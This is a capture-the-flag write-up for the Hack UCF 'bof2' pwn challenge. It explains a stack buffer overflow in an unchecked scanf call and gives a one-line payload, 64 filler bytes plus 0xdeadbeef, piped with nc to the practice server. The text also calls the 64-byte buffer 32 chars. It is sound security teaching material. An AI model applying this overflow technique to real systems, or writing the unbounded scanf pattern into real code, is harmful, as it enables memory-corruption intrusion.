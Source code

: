# bof2
**Category:** Pwn

**Points:** 20

**Description:**

Author: kablaa
nc ctf.hackucf.org 9001

> **Files:** bof2, bof2.c, libpwnableharness32.so

## Write-up
This is a buffer overflow challenge, and the code file was provided.

Looking at the code the important function seemed to be `handle_connection()` as it contains a `scanf()` call into a buffer of 32 chars:
```c
void handle_connection(int sock) {
	int correct = 0;
	char bof[64];
	
	scanf("%s", bof);
	
	if(correct != 0xdeadbeef) {
		puts("you suck!");
		exit(0);
	}
	
	win();
}
```

When the program runs it waits for input at this point, and overflowing the buffer may overflow into the `correct` variable.

To test this I first created a file with 64 A characters in. This allows use to see how the stack is organised.
```
> python -c "print('A'*64)" > inp_file.txt
```

First, for this run of the code, we can see that our `correct` variable ends up at 0xffbab10c:

![Location of 'correct' variable](correct_location.png)

We can see this area on the stack (highlighted in yellow):

!['Correct' variable on the stack](stack1.png)

If we move it on one step, we can see this area get zeroed:

!['Correct' variable set to zero](stack2.png)

We can also see that our `flag` array is at 0xffbab0cc:

![Location of 'flag' variable](flag_location.png)

If we send our 64 A characters in, we can clearly see this array on the stack:

![Flag variable filled with As](stack3.png)

We can also see that it sits right up against our `correct` variable, so we should be able to set it to 0xdeadbeef by sending those characters after our 64 A characters (we need to reverse the order because - little endian). Our input file is now set with:
```
> python -c "print('A'*64 + '\xef\xbe\xad\xde')" > inp_file.txt
```

If we run this and look at the stack we can now see our A characters followed by our `deadbeef`:

![As and deadbeef](stack4.png)

Tracing through, we end up in the `win()` function. So now it's time to try it on the server:
```
> python -c "print('A'*64 + '\xef\xbe\xad\xde')" | nc ctf.hackucf.org 9001
````

This worked, and gave me the flag.
